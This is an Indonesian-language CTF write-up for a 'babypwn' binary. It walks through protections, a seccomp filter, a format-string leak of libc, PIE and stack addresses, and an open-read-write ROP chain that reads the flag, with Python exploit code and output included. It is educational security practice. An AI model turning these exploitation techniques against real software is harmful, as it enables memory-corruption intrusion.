 # babypwn

## Binary Specifications

```
2:55:12 › file chall; checksec chall
chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d441550632209e2b7eb624470e8892ae13d8c4af, for GNU/Linux 3.2.0, not stripped
[*] '/home/chao/Documents/FastTekno/pwn/babypwn/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Binary memiliki arsitektur 64 bit dengan full proteksi

```
2:55:20 › seccomp-tools dump ./chall
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0a 0xc000003e  if (A != ARCH_X86_64) goto 0012
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x07 0xffffffff  if (A != 0xffffffff) goto 0012
 0005: 0x15 0x05 0x00 0x00000000  if (A == read) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0011
 0007: 0x15 0x03 0x00 0x00000002  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x0000003c  if (A == exit) goto 0011
 0009: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0011
 0010: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

Binary juga dilengkapi dengan filter seccomp dimana hanya memperbolehkan syscall **openat, open, read, write, exit**, dan **exit group**

## Bug

Binary menerima input sebanyak 4 kali, namun bug hanya terdapat pada input dan output pertama, yaitu bug format string

## Exploitation

1 kali format string tersebut dapat kita gunakan untuk melakukan leak libc dan PIE. Hasil dari leaked address tersebut dapat kita gunakan untuk:

1. Leak stack via environ(libc)
2. Mendapatkan base pie

Pada inputan kedua, binary meminta input berupa address yang nantinya value dari address tersebut akan di print oleh binary. <br>
Pada inputan ketiga, binary meminta input yang nantinya akan menjadi address yang akan kita isi pada inputan ke empat.<br>
Pada inputan ke empat, input kita akan diisi pada address yang kita inputkan pada inputan ketiga.<br><br>
Intended solution disini adalah dengan mendapatkan return address stack dan melakukan ROP dari return address.<br>
Ide-nya cukup simple. Setelah mendapatkan address environ, kita cukup meng-inputkan address **environ** tersebut pada inputan kedua agar value dari address tersebut diprint oleh binary sehingga kita mendapatkan address stack. Selanjutnya tinggal melakukan sedikit kalkulasi dari address stack tersebut untuk mendapatkan return address sehingga pada inputan ketiga, kita tinggal meng-inputkan address return dari stack.<br>
Dapat kita lihat pada kode berikut, kode ini melakukan leak libc yang nantinya akan kita gunakan lagi untuk leak stack dan mendapatkan return address.

```Python
  p.sendline("%47$p-%34$p")

  shit = p.recv().split("-")
  print shit

  libc_leak = int(shit[0], 16) - 243
  log.info("Libc leak: {}".format(hex(libc_leak)))
  libc_base = libc_leak - 0x026fc0
  log.info("Libc base: {}".format(hex(libc_base)))
  libc_environ = libc_base + 0x1ef2e0
  log.info("Libc environ: {}".format(hex(libc_environ)))
  libc_open = libc_base + 0x110e50
  log.info("Libc open: {}".format(hex(libc_open)))
  libc_puts = libc_base + 0x875a0
  log.info("Libc puts: {}".format(hex(libc_puts)))
  libc_pop_rdx_rbx = libc_base + 0x0000000000162866
  log.info("Libc pop rdx rbx: {}".format(hex(libc_pop_rdx_rbx)))
  libc_pop_rdi = libc_base + 0x0000000000026b72
  log.info("Libc pop rdi: {}".format(hex(libc_pop_rdi)))
  libc_pop_rsi_r15 = libc_base + 0x0000000000026b70
  log.info("Libc pop rsi: {}".format(hex(libc_pop_rsi_r15)))

  p.sendline(str(hex(libc_environ)))
  stack_leak = int(p.recvline()[:-1])
  log.info("Stack leak: {}".format(hex(stack_leak)))
  ret_stack = stack_leak - 0x100
  log.info("Return stack: {}".format(hex(ret_stack)))
  pie_leak = int(shit[1], 16)
  log.info("Pie leak: {}".format(hex(pie_leak)))
  base_pie = pie_leak - 0x40
  log.info("Base pie: {}".format(hex(base_pie)))

  p.sendline(hex(ret_stack))
```

Pada inputan keempat, tinggal ROP **open read write** abis tu dapet flag deh wkwk.<br>
Sesuai deskripsi soal, flag ada di **/home/babypwn/flag.txt**.<br>
Nah, ROP disini akan sedikit panjang karena filter seccomp(**cuma bisa open read write ajg**). ROPnya kayak gini nih

```Python
  payload = ''
  payload += p64(libc_pop_rdi)
  payload += p64(0)
  payload += p64(libc_pop_rsi_r15)
  payload += p64(base_pie + bss) * 2
  payload += p64(base_pie + read_plt)
  payload += p64(libc_pop_rdi)
  payload += p64(base_pie + bss)
  payload += p64(libc_pop_rsi_r15)
  payload += p64(0) * 2
  payload += p64(libc_pop_rdx_rbx)
  payload += p64(0) * 2
  payload += p64(libc_open)
  payload += p64(libc_pop_rdi)
  payload += p64(3)
  payload += p64(libc_pop_rsi_r15)
  payload += p64(base_pie + bss + 0x100) * 2
  payload += p64(libc_pop_rdx_rbx)
  payload += p64(0x100) * 2
  payload += p64(base_pie + read_plt)
  payload += p64(libc_pop_rdi)
  payload += p64(base_pie + bss + 0x100)
  payload += p64(libc_puts)
```

Untuk membuat custom ROP, tentunya diperlukan pengetahuan yang luas terhadap stack frame dan juga register pada 64 bit. Intinya, rop ini memanggil fungsi read agar kita bisa menginputkan lokasi flag yang nantinya akan di open, di read ke bss + 0x100, dan akhirnya di outputkan.<br>
ROPnya cukup panjang, sekitar 216 bytes wkwkwk, mungkin bisa lebih pendek cuma aku males buat ropchain lagi.

Output:

```
2:56:35 › python exploit.py local
[+] Starting local process './chall': pid 57335
[*] '/home/chao/Documents/FastTekno/pwn/babypwn/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
['0x7fcbc3aa80b3', '0x55d523e07040']
[*] Libc leak: 0x7fcbc3aa7fc0
[*] Libc base: 0x7fcbc3a81000
[*] Libc environ: 0x7fcbc3c702e0
[*] Libc open: 0x7fcbc3b91e50
[*] Libc puts: 0x7fcbc3b085a0
[*] Libc pop rdx rbx: 0x7fcbc3be3866
[*] Libc pop rdi: 0x7fcbc3aa7b72
[*] Libc pop rsi: 0x7fcbc3aa7b70
[*] Stack leak: 0x7fff46d0d4a8
[*] Return stack: 0x7fff46d0d3a8
[*] Pie leak: 0x55d523e07040
[*] Base pie: 0x55d523e07000
0xd8
[*] Switching to interactive mode
FastTekno{L3ak_st4CK_4nD_RO000OOppPPP_tO_tH3_w1n}
```
